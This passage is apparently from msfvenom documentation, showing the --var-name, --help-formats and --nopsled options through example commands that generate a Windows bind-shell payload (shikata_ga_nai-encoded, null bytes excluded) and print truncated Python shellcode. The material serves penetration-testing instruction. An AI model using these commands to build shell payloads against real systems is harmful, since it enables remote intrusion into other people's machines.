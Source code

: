Using –var-name output example:

```
root@kali:~# msfvenom -a x86 --platform Windows -p windows/shell/bind_tcp -e x86/shikata_ga_nai -b '\x00' -f python -v notBuf
Found 1 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 326 (iteration=0)
x86/shikata_ga_nai chosen with final size 326
Payload size: 326 bytes
notBuf = ""
notBuf += "\xda\xd1\xd9\x74\x24\xf4\xbf\xf0\x1f\xb8\x27\x5a"
...snip...

```

**msfvenom –help-format**

Issuing the **msfvenom** command with this switch will output all available payload formats.

```
root@kali:~# msfvenom --help-formats
Executable formats
asp, aspx, aspx-exe, dll, elf, elf-so, exe, exe-only, exe-service, exe-small,
hta-psh, loop-vbs, macho, msi, msi-nouac, osx-app, psh, psh-net, psh-reflection,
psh-cmd, vba, vba-exe, vba-psh, vbs, war
Transform formats
bash, c, csharp, dw, dword, hex, java, js_be, js_le, num, perl, pl,
powershell, ps1, py, python, raw, rb, ruby, sh,
vbapplication, vbscript
```

**msfvenom -n, –nopsled** Sometimes you need to add a few NOPs at the start of your payload. This will place a NOP sled of \[length] size at the beginning of your payload.

BEFORE:

```
root@kali:~# msfvenom -a x86 --platform Windows -p windows/shell/bind_tcp -e generic/none -f python
Found 1 compatible encoders
Attempting to encode payload with 1 iterations of generic/none
generic/none succeeded with size 299 (iteration=0)
generic/none chosen with final size 299
Payload size: 299 bytes
buf = ""
buf += "\xfc\xe8\x82\x00\x00\x00\x60\x89\xe5\x31\xc0\x64\x8b" **First line of payload
buf += "\x50\x30\x8b\x52\x0c\x8b\x52\x14\x8b\x72\x28\x0f\xb7"
...snip...
```

AFTER:

```
root@kali:~# msfvenom -a x86 --platform Windows -p windows/shell/bind_tcp -e generic/none -f python -n 26
Found 1 compatible encoders
Attempting to encode payload with 1 iterations of generic/none
generic/none succeeded with size 299 (iteration=0)
generic/none chosen with final size 299
Successfully added NOP sled from x86/single_byte
Payload size: 325 bytes
buf = ""
buf += "\x98\xfd\x40\xf9\x43\x49\x40\x4a\x98\x49\xfd\x37\x43" **NOPs
buf += "\x42\xf5\x92\x42\x42\x98\xf8\xd6\x93\xf5\x92\x3f\x98"
buf += "\xfc\xe8\x82\x00\x00\x00\x60\x89\xe5\x31\xc0\x64\x8b" **First line of payload
...snip...
```
